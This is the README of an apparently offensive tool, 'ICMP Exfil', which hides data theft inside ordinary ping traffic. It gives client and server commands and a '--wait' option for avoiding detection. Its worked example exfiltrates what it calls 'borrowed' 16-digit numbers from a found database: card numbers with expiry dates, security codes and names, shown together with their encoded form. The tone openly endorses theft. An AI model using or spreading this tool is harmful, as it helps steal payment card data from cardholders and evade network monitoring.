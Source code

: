 # ICMP Exfil

ICMP Exfil allows you to transmit data via valid ICMP packets. You use the client script to pass in data you wish to exfiltrate, then on the device you're transmitting to you run the server. Anyone watching-- human or security system-- will just see valid ICMP packets, there's nothing malicious about the structure of the packets. Your data isn't hidden inside the ICMP packets either, so looking at the packet doesn't tell you what was exfiltrated. 

![Screen Shot](https://image.ibb.co/hRrvDm/exfil.png)

# Author
Martino Jones, [martinojones.com](https://martinojones.com).

# ASCII

Right now, the only thing I've added support for is ASCII characters. You will be able to exfiltrate anything that can be represented in ASCII characters (e.g. letters and numbers). For example: you borrowed some cool 16 digit numbers, well you'd use the client script to pass those numbers to your server by doing ```./ping.py --ascii "4111111111111111"```.

# Sending to server

You have two options for setting the server to send to. You can either use the **-\-ip** or you can set the default IP in the script called **ipToPing**.

# Wait

If you want to be a little more patient, and make it harder for people to notice you're exfiltrating data you can use **--wait** to specify the amount of min time + the time that's supposed to pass for the data to transfer. This is still being worked on... so you'll need to do this conversion yourself, but shouldn't take long for me to add... also doesn't matter too much since most people and security systems don't even detect this yet. 

# Verbose

If you would like to see the pings going through you can use the **-\-show**.

# Start/Stop Server

When you want to start the server you just do ```sudo python3 server.py```. You don't need to do anything else. When you're done, you just need to do **Control+C**. Right now the server needs work, it needs to map the input based on who they recived the data from, right now I only have it tested with one client pinging the server, this of course needs to be tuned. The groundwork is already there, just need to get the reset put together. 
# Example
I found a database full of these cool 16 digit numbers, I need to save them for futher research so I save them to a file called **file**:
**Command**:```./ping.py --ip 1.2.3.4 --asciiFile file```
**File Content**: ```4587965312457852 01/15 456 Martino Jones | 4567965382457452 03/16 236 Martino Joe```
**Encoded Data**: ```['0110100', '0110101', '0111000', '0110111', '0111001', '0110110', '0110101', '0110011', '0110001', '0110010', '0110100', '0110101', '0110111', '0111000', '0110101', '0110010', '0100000', '0110000', '0110001', '0101111', '0110001', '0110101', '0100000', '0110100', '0110101', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1101110', '1100101', '1110011', '0100000', '1111100', '0100000', '0110100', '0110101', '0110110', '0110111', '0111001', '0110110', '0110101', '0110011', '0111000', '0110010', '0110100', '0110101', '0110111', '0110100', '0110101', '0110010', '0100000', '0110000', '0110011', '0101111', '0110001', '0110110', '0100000', '0110010', '0110011', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1100101', '0001010']```
**Server**:
```
Calculating offsets


4 5 8 7 9 6 5 3 1 2 4 5 7 8 5 2   0 1 / 1 5   4 5 6   M a r t i n o   J o n e s   |   4 5 6 7 9 6 5 3 8 2 4 5 7 4 5 2   0 3 / 1 6   2 3 6   M a r t i n o   J o e 
```
# TODO
If you would like to help there are a number of things I still need to add:
- Transmit Binary files, can just read in the file as binary and won't need to encode.
- Allow passing in the server the offset, in case you want to make the window bigger or smaller, especially useful over very poor connections.
- Print mapping of IP to DATA when done.
- Allow quiet server.
- Allow showing data as it comes in, a little more tricky, but just requires some on the fly offset calculations.
- More things as they come to mind ;-)
